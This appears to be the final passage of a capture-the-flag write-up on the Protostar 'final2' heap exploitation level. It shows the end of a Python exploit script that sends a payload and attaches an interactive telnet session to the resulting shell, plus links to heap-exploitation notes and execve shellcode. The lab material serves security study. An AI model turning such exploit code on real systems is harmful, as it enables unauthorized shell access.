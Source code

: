 ```python
s.send(payload2)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

![final2-win](/public/image/protostar-final/final2.png)

### Refereces

- <a href="https://dathwang.github.io/blog/protostar-heap/#heading-11" target="_blank">Protostar Heap 3</a>
- <a href="https://gist.github.com/dathwang/89a6b012828ed26f6cb2a7961908d333" target="_blank">Old school dlmalloc</a>
- <a href="https://shell-storm.org/shellcode/files/shellcode-575.html" target="_blank">Linux/x86 - execve /bin/sh - 21 bytes</a>